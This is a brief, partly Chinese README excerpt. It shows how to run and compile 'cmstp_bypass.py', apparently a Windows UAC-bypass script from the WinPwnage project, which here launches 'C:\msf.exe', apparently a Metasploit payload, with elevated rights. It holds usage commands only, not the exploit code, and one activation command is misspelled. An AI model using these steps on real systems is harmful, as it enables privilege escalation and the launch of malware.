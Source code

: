 ### python运行

```
python3 cmstp_bypass.py C:\msf.exe

```

### 编译为exe运行

```
copy cmstp_bypass.py uac
python -m venv c:\uac\env
cd c:\uac
.\env\Scripts\active
pip install pyinstaller
pyinstaller cmstp_bypass.py
```

### From
<https://github.com/rootm0s/WinPwnage>